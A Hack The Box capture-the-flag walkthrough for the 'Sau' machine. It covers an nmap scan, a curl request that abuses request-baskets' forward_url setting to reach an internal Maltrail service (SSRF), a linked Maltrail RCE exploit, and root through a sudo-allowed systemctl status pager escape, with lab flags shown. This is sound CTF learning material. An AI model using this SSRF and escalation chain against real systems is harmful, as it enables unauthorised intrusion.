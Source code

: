 ```yaml
---
categories: [hackthebox , walkthrough]
tags: [PrivEsc, Public Exploit, SSRF]
---
```


# Sau
![Untitled](/Vulnhub-Files/img/Sau/Untitled.png)

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Sau]
└─$ sudo nmap -sC -sV -T4 10.10.11.224 -oN Nmap_results.txt
[sudo] password for kali: 
Starting Nmap 7.94 ( https:/nmap.org ) at 2023-08-29 12:45 IST
Nmap scan report for 10.10.11.224
Host is up (0.17s latency).
Not shown: 997 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Tue, 29 Aug 2023 07:17:19 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Tue, 29 Aug 2023 07:16:43 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Tue, 29 Aug 2023 07:16:45 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data.
```

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Sau/Untitled%201.png)

After clicking on create button →

![Untitled](/Vulnhub-Files/img/Sau/Untitled%202.png)

```bash
Basket 'nxhtzfm' is successfully created!

Your token is: 8fREKdr_kiHy5fuFJce3w5JPrnQ5zlnnhzTVJ4CUo62O
```

I got a dashboard which keeps log of the URL activity →

![Untitled](/Vulnhub-Files/img/Sau/Untitled%203.png)

Through web recon I got to know about the vulberability that this site is affected to so I got this →

[Exploit](https:/gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3/)

Now I set the options and all the Settings options through curl with the new directory named as `shell` →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Sau]
└─$ curl --location 'http:/10.10.11.224:55555/api/baskets/shell' --header 'Content-Type: application/json' --data '{"forward_url": "http:/127.0.0.1:80/", "proxy_response": true, "insecure_tls": false, "expand_path": true, "capacity": 250}'
{"token":"ZLVtatdn0yuct7Sy8iOpI9t0VryjYQL68vTkd-TX8HMT"}
```

I accessed the `http:/10.10.11.224:55555/api/baskets/shell`  page I got this 

![Untitled](/Vulnhub-Files/img/Sau/Untitled%204.png)

I also tried to set these below options on curl →

![Untitled](/Vulnhub-Files/img/Sau/Untitled%205.png)

Now Lets access the url directly `http:/10.10.11.224:55555/shell`and I got this →

![Untitled](/Vulnhub-Files/img/Sau/Untitled%206.png)

Now with some web recon I find out that this `Mailtrail (v0.53)` is vulnerable and can give me RCE so I used this exploit →

[Exploit](https:/www.exploit-db.com/exploits/51676/)

![Untitled](/Vulnhub-Files/img/Sau/Untitled%207.png)

I got the shell now its time for dig in into the shell for root access →

```bash
puma@sau:~$ ls -al
ls -al
total 36
drwxr-xr-x 4 puma puma 4096 Aug 29 05:24 .
drwxr-xr-x 3 root root 4096 Apr 15 09:17 ..
lrwxrwxrwx 1 root root    9 Apr 14 17:46 .bash_history -> /dev/null
-rw-r--r-- 1 puma puma  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 puma puma 3771 Feb 25  2020 .bashrc
drwx------ 2 puma puma 4096 Apr 15 09:42 .cache
drwx------ 3 puma puma 4096 Apr 15 09:51 .gnupg
-rw-r--r-- 1 puma puma  807 Feb 25  2020 .profile
-rw------- 1 puma puma  556 Aug 29 05:24 .viminfo
lrwxrwxrwx 1 puma puma    9 Apr 15 09:41 .wget-hsts -> /dev/null
-rw-r----- 1 root puma   33 Aug 29 04:08 user.txt
puma@sau:~$ cat user.txt
cat user.txt
9d18067025cba80f61b19105560f6662
puma@sau:~$ 
```

Now lets see how this user can get me to root →

```bash
puma@sau:~$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
puma@sau:~$
```

Now from gtfobin site I got the payload that gona get me root →

![Untitled](/Vulnhub-Files/img/Sau/Untitled%208.png)

Now  I used it and got this →

```bash
puma@sau:~$ sudo /usr/bin/systemctl status trail.service
```

![Untitled](/Vulnhub-Files/img/Sau/Untitled%209.png)

```bash
# cd /root
# ls -al
total 44
drwx------  6 root root 4096 Aug 29 09:58 .
drwxr-xr-x 20 root root 4096 Jun 19 09:41 ..
lrwxrwxrwx  1 root root    9 Apr 15 09:35 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  3 root root 4096 Jun 19 09:41 .cache
-rw-------  1 root root   31 Aug 29 09:58 .lesshst
drwxr-xr-x  3 root root 4096 Jun  8 11:03 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
drwx------  2 root root 4096 Apr 14 17:38 .ssh
-rw-r--r--  1 root root   39 Jun  8 11:05 .vimrc
lrwxrwxrwx  1 root root    9 Apr 15 09:35 .wget-hsts -> /dev/null
drwxr-xr-x  4 root root 4096 Jun 19 09:41 go
-rw-r-----  1 root root   33 Aug 29 04:08 root.txt
#
# cat root.txt
2754674b979d814022ef84fa0cdd965b
#
```